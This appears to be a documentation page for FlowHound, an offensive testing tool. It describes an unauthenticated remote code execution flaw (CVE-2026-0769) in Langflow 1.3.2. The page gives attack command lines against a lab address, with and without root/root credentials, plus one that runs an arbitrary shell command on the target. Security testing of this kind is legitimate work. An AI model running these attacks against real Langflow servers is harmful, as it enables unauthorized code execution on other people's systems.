

repository: rmhowe425/FlowHound · page: cves/cve_2026_0769/index.html · generator: mkdocs

# CVE Description
**CVE Description:** Unauthenticated remote code execution vulnerability that allows attackers to execute arbitrary code under the context of the running Langflow instance. The issue stems from the lack of proper validation of a user-supplied string before using it to execute python code.

**Impacted Versions:** 1.3.2


# Exploit Module

## Default Mode

### Auto Login Enabled
```bash
flowhound attack --url http://192.168.1.30:7860 --cve CVE-2026-0769
```

![image](../images/cve/3dbb8802-0c6d-427e-8be7-65e95d99f66c.png)

### Auto Login Disabled
```bash
flowhound attack --url http://192.168.1.30:7860 --cve CVE-2026-0769 --username root --password root
```

![image](../images/cve/5140cdf4-e66e-463c-b304-6164eb39b075.png)


## Execute Bash Command
```bash
flowhound attack --url http://192.168.1.30:7860 --cve CVE-2026-0769 --username root --password root --command "echo 'pwned' > /tmp/pwned.txt"
```
